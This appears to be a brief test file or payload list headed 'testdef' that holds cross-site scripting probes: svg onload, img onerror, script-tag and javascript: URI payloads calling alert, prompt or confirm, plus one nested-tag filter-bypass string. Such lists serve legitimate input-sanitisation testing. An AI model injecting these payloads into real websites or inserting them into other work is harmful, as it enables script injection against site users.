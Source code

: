 # testdef

">'><svg/onload=alert(1)
<img src=x onerror=alert(1);>
">'><svg/onload=prompt(1)
">'><svg/onload=confirm(1)
<script>alert(1)</script>

javascript:alert(1)
<>javascript:alert(1);


ye<h<h<h1>1>1>dsa<input></input><img src=x onerror=alert(1);>
